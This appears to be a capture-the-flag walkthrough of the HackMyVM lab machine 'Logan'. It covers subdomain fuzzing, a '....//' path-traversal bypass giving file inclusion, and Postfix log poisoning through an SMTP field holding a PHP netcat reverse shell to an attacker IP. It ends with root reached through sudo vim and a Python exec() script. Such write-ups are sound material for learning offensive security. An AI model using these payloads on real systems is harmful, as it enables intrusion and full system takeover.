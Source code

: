 # writeup logan hackmyvm

## machine info
- VmName : Logan
- Creator : d3b0o
- Level : medium
- Link : [https://downloads.hackmyvm.eu/logan.zip](https://downloads.hackmyvm.eu/logan.zip)

## walkthrough
### summary
- get a subdomain using web fuzzer
- find LFI from the subdomain web site
- write php reverse shell into postfix log file
- get a user shell (www-data) using LFI
- get a user shell (logan) using sudo command
- get a root shell using sudo command

### get machine ip address
```
sudo netdiscover -i eth0 -r 192.168.0.0/24
```
```mermaid
flowchart LR
    id1("kali (attacker)
    192.168.0.4")
    ----
    id2("logan.hmv (target)
    192.168.0.254")
```

### scan open ports
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nmap -T4 -sC -sV -p- -oN nmap.log 192.168.0.254
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-19 03:21 EDT
Nmap scan report for discover (192.168.0.254)
Host is up (0.00066s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
25/tcp open  smtp    Postfix smtpd
| ssl-cert: Subject: commonName=logan
| Subject Alternative Name: DNS:logan
| Not valid before: 2023-07-03T13:46:49
|_Not valid after:  2033-06-30T13:46:49
|_ssl-date: TLS randomness does not represent time
|_smtp-commands: logan.hmv, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  logan.hmv

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds
```

### get a user shell
I checked out a website (port 80).
- whatweb
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ whatweb http://logan.hmv                  
http://logan.hmv [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[192.168.0.254], JQuery[3.4.1], Script[text/javascript], Title[Logan], X-UA-Compatible[IE=edge]
```
![](./img/web_01.png)

I think that a form of this website is not working.
![](./img/web_02.png)
![](./img/web_03.png)

I could not find useful information from the website.
So, I tried finding a subdomain.
- wfuzz
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://logan.hmv" -H "HOST: FUZZ.logan.hmv" -t 100 -Z --hh 65 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://logan.hmv/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                    
=====================================================================

000000024:   200        62 L     101 W      1112 Ch     "admin - admin"                                                            
000009532:   400        10 L     35 W       301 Ch      "#www - #www"                                                              
000010581:   400        10 L     35 W       301 Ch      "#mail - #mail"                                                            
000047706:   400        10 L     35 W       301 Ch      "#smtp - #smtp"                                                            
000103135:   400        10 L     35 W       301 Ch      "#pop3 - #pop3"                                                            

Total time: 217.2565
Processed Requests: 114441
Filtered Requests: 114436
Requests/sec.: 526.7551
```

I could find a subdomain website (admin.logan.hmv).
So, I checked out the website.
- Administration panel
![](./img/web_04.png)
- Upload files
![](./img/web_05.png)
I uploaded some files. But, I could not find the files on the website.
- Logs
![](./img/web_06.png)
There was neither clearlogs.php file nor backup files (clearlogs.php.bak, and so on) on the website.
- Payments
![](./img/web_07.png)
I found there are three files (01, 02, 03) on the website.
I realized the website removed "../" string from input string after trying many things.
![](./img/web_08.png)
So, I tried entering "....//....//....//....//etc/passwd" string there, I could get LFI (Local File Inclusion) from the website.
![](./img/web_09.png)

Because I could read a postfix log file from the website using LFI, I tried getting a shell using it.
![](./img/web_10.png)
```
┌──(kali㉿kali)-[~/hackmyvm/logan]
└─$ nc logan.hmv 25
220 logan.hmv ESMTP Postfix (Ubuntu)
mail from:logan
250 2.1.0 Ok
rcpt to:<?php exec("rm /tmp/p;mkfifo /tmp/p;cat /tmp/p|/bin/sh -i 2>&1|nc 192.168.0.4 1234 >/tmp/p"); ?>
501 5.1.3 Bad recipient address syntax
```
![](./img/shell_01.png)
I could get a user shell (www-data).

When I executed sudo command, I found I can execute vim command with logan privilege.
```
www-data@logan:/var/www/admin$ sudo -l
Matching Defaults entries for www-data on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on logan:
    (logan) NOPASSWD: /usr/bin/vim
www-data@logan:/var/www/admin$ 
```

So, I executed vim command as logan with sudo and executed bash command in there.
![](./img/shell_02.png)
```
www-data@logan:/var/www/admin$ sudo -u logan /usr/bin/vim

logan@logan:/var/www/admin$ id
uid=1000(logan) gid=1000(logan) groups=1000(logan),27(sudo),1002(administration)
```

I could get a user shell (logan) and a user flag (logan). 😺
```
logan@logan:~$ ls -la
total 36
drwxr-xrwx 4 logan logan 4096 Jul 18 08:42 .
drwxr-xr-x 3 root  root  4096 Jul 17 20:59 ..
lrwxrwxrwx 1 root  root     9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r-x 1 logan logan  220 Jan  6  2022 .bash_logout
-rw-r--r-x 1 logan logan 3771 Jan  6  2022 .bashrc
drwx---r-x 2 logan logan 4096 Jul  3 13:41 .cache
drwxrwxr-x 3 logan logan 4096 Jul 17 12:08 .local
-rw-r--r-x 1 logan logan  807 Jan  6  2022 .profile
-rw-r--r-x 1 logan logan    0 Jul  3 13:42 .sudo_as_admin_successful
-rw-r--r-- 1  1002  1003   68 Jul 17 12:41 to-do
-rw-r--r-- 1 logan logan   16 Jul 17 20:45 user.txt
logan@logan:~$ cat user.txt 
User: i*******s
```

### get a root shell
```
logan@logan:~$ cat to-do 
- Go outside
- Try the new script that gave me root to learn python
```

When I executed sudo command, I found I can execute a python script with root privilege.
```
logan@logan:~$ sudo -l
Matching Defaults entries for logan on logan:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User logan may run the following commands on logan:
    (root) NOPASSWD: /usr/bin/python3 /opt/learn_some_python.py
logan@logan:~$ ls -l /opt/learn_some_python.py
-rw------- 1 root root 132 Jul 18 08:48 /opt/learn_some_python.py
```

So, I executed the script.
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

aaaaa
Traceback (most recent call last):
  File "/opt/learn_some_python.py", line 3, in <module>
    exec(comand)
  File "<string>", line 1, in <module>
NameError: name 'aaaaa' is not defined
```

It looks like I can enter python scripts into the exec function.
So, I entered the following into it.
```
import os;os.system("/bin/bash");
```
```
logan@logan:~$ sudo -u root /usr/bin/python3 /opt/learn_some_python.py
Welcome!!!

 The first you need to now is how to use print, please type print('hello')

import os;os.system("/bin/bash");
root@logan:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```

I could get a root shell and a root flag. 😺
```
root@logan:~# ls -la
total 48
drwx------  5 root root 4096 Jul 17 21:02 .
drwxr-xr-x 19 root root 4096 Jul  3 13:40 ..
lrwxrwxrwx  1 root root    9 Jul 17 11:11 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  3 root root 4096 Jul  3 14:10 .launchpadlib
-rw-------  1 root root   20 Jul 17 11:52 .lesshst
drwxr-xr-x  3 root root 4096 Jul  3 13:46 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Jul  4 19:13 .selected_editor
-rw-r--r--  1 root root    0 Jul  3 13:45 .sudo_as_admin_successful
-rw-------  1 root root  985 Jul 17 14:27 .viminfo
-rw-r--r--  1 root root  169 Jul  3 14:15 .wget-hsts
-rw-r--r--  1 root root   17 Jul 17 20:44 root.txt
drwx------  3 root root 4096 Jul  4 15:52 snap
root@logan:~# cat root.txt 
Root: s********u
```
